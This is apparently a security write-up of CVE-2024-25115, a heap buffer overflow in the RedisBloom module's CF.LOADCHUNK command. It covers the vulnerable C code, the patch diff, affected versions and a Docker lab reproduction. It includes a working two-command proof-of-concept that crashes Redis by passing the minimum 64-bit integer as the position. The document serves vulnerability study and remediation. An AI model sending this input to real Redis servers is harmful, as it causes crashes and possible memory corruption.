




# CVE-2024-25115 CWE-120&122 Redis buffer overflow

## Vulnerability Background
- **Redis**: A key-value storage system that is a cross-platform non-relational database. An open-source in-memory database that provides a high-performance key-value storage system, commonly used in caching, message queues, session storage, and other application scenarios. Clients communicate with Redis servers via sockets, sending commands, and the server changes its state (i.e., its memory structure) to respond to such commands.
- **RedisBloom:** RedisBloom's extension module provides probabilistic data structures such as Bloom filters, Count-Min Sketch, and Top-K in a native lifetoken format, enabling massive data existence checks, frequency statistics, and hotspot ranking within constant memory and millisecond-level latency.
- **CF. RESERVE:** A command in the RedisBloom module used to pre-create a Count-Filter (approximate count filter), allowing customization of bucket count, bucket depth, and scalable parameters to avoid performance jitter caused by dynamic scaling. It is suitable for finalizing memory and alignment strategies at once before high-concurrency writes.
- **CF. LOADCHUNK:**Used to load a data block (chunk) into a Cuckoo Filter at a specified location (`pos`).

```txt
CWE-120: Buffer Copy without Checking Size of Input ('Classic Buffer Overflow')
The product copies an input buffer to an output buffer without verifying that the size of the input buffer is less than the size of the output buffer.
	
CWE-122: Heap-based Buffer Overflow
A heap overflow condition is a buffer overflow, where the buffer that can be overwritten is allocated in the heap portion of memory, generally meaning that the buffer was allocated using a routine such as malloc().
```

## Vulnerability Mechanism
The `pos` parameter in the `CF.LOADCHUNK` command of the RedisBloom module is not sufficiently validated, allowing illegal negative values (such as `-9223372036854775808`) to be passed as position parameters. This invalid `pos` value causes an incorrect offset (`offset`) to be calculated during memory operations, thereby accessing illegal memory regions during `memcpy` execution, causing heap overflow, memory corruption, or potential remote code execution.

## Vulnerability Location
Analysis of RedisBloom v2.6.3 source code:

In the src/cf.c file, line 86, the `CF_LoadEncodedChunk` function is responsible for loading a piece of data (`data`) into the specified Cuckoo Filter (`cf`).

However, it only checks `datalen == 0`, meaning the data length is 0. However, when calculating `offset`, the reasonableness of `pos` and `datalen` is not checked. If `pos` is less than `datalen + 1`, then `offset` may be negative. This can lead to incorrect memory regions being accessed during `memcpy`, resulting in memory overflow, unauthorized access, or memory corruption.

```c
int CF_LoadEncodedChunk(const CuckooFilter *cf, long long pos, const char *data, size_t datalen) {
    if (datalen == 0) {
        return REDISMODULE_ERR;
    }

    // calculate offset
    long long offset = pos - datalen - 1;
    long long currentSize;
    int filterIx = 0;
    SubCF *filter = NULL;
    for (; filterIx < cf->numFilters; ++filterIx) {
        filter = cf->filters + filterIx;
        currentSize = filter->bucketSize * filter->numBuckets;
        if (offset < currentSize) {
            break;
        }
        offset -= currentSize;
    }

    // copy data to filter
    memcpy(filter->data + offset, data, datalen);
    return REDISMODULE_OK;
}
```

## Remediation
Added checks and enhanced input validation to prevent attackers from causing memory corruption or program crashes through malicious input:

- `pos <= 0`: Check whether the `pos` (position) is less than or equal to 0, ensuring the position is a valid positive integer.
- `(size_t)(pos - 1) < datalen`: Check whether the `pos - 1` is less than the data length `datalen` to ensure `pos` does not cause access to areas beyond the data.

Additionally, boundary checks have been added to ensure that data write operations do not cause unauthorized memory access or overflow, preventing vulnerabilities such as heap overflow.

```cpp
diff --git a/src/cf.c b/src/cf.c
index ca7878c58..79f757ad1 100644
--- a/src/cf.c
+++ b/src/cf.c
@@ -84,7 +84,7 @@ const char *CF_GetEncodedChunk(const CuckooFilter *cf, long long *pos, size_t *b
 }
 
 int CF_LoadEncodedChunk(const CuckooFilter *cf, long long pos, const char *data, size_t datalen) {
-    if (datalen == 0) {
+    if (datalen == 0 || pos <= 0 || (size_t)(pos - 1) < datalen) {
         return REDISMODULE_ERR;
     }
 
@@ -102,6 +102,12 @@ int CF_LoadEncodedChunk(const CuckooFilter *cf, long long pos, const char *data,
         offset -= currentSize;
     }
 
+    // Boundary check before memcpy()
+    if (!filter || ((size_t)offset > SIZE_MAX - datalen) ||
+        filter->bucketSize * filter->numBuckets < offset + datalen) {
+        return REDISMODULE_ERR;
+    }
+
     // copy data to filter
     memcpy(filter->data + offset, data, datalen);
     return REDISMODULE_OK;
                                             
                                             
                                             
diff --git a/src/rebloom.c b/src/rebloom.c
index 8a4fd4299..b3a781706 100644
--- a/src/rebloom.c
+++ b/src/rebloom.c
@@ -850,7 +850,7 @@ static int CFScanDump_RedisCommand(RedisModuleCtx *ctx, RedisModuleString **argv
     }
 
     long long pos;
-    if (RedisModule_StringToLongLong(argv[2], &pos) != REDISMODULE_OK) {
+    if (RedisModule_StringToLongLong(argv[2], &pos) != REDISMODULE_OK || pos < 0) {
         return RedisModule_ReplyWithError(ctx, "Invalid position");
     }
```

## Affected Versions
Reids-RedisBloom ：

-  2.0.0 to 2.4.6
-  2.6.9 to 2.6.10

## Environment Setup
Start the Docker environment, redis-stack version 7.2.0-v1, which is a Redis server with RedisBloom v2.6.3 installed

```txt
CNA:GitHub,Inc.   Base Score:7.0 HIGH  Vector:CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H
```



## Vulnerability Reproduction
1. Connect with `redis-cli` and run the two commands shown below. No Python PoC is bundled in this directory; these commands are the complete minimal reproducer.

   ```bash
   redis-cli -h 127.0.0.1 -p 6379
   CF.RESERVE cf
   CF.LOADCHUNK cf -9223372036854775808 1
   ```

   

   Or you can go directly to the container command line and execute the PoC command, and you will see that Redis has disconnected

   ```bash
   docker exec -it redis-stack-7.2.0-v1 echo -e "CF.RESERVE cf 4\nCF.LOADCHUNK cf -9223372036854775808 1" | redis-cli
   ```

   

2. Looking at the container logs, you can see that Redis encountered a segment of error (signal: 11) during runtime, causing the crash.

   ```bash
   docker logs redis-stack-7.2.0-v1
   ```

   

## PoC Analysis

```bash
CF.RESERVE cf 
CF.LOADCHUNK cf -9223372036854775808 1
```

CF. RESERVE cf creates a Cuckoo Filter instance for `cf` in Redis.

CF. LOADCHUNK passes a very small value to the `pos` parameters specifying the loading position of the data block: `-9223372036854775808` (the minimum value of a 64-bit integer, usually an illegal position).

In RedisBloom's `CF_LoadEncodedChunk` function, `pos` parameters are not sufficiently validated, causing the program to perform incorrect memory operations when `pos` is invalid, which could lead to memory overflow or other security issues.

## References
[NVD - CVE-2024-25115](https://nvd.nist.gov/vuln/detail/CVE-2024-25115)

[MOD-6344 Fix potential crash for cf.scandump and cf.loadchunk (#726) · RedisBloom/RedisBloom@2f3b383](https://github.com/RedisBloom/RedisBloom/commit/2f3b38394515fc6c9b130679bcd2435a796a49ad#diff-117a3637e0edb6f18370cf91475bde5dc212e1927ab0772235565bc32fca6672)
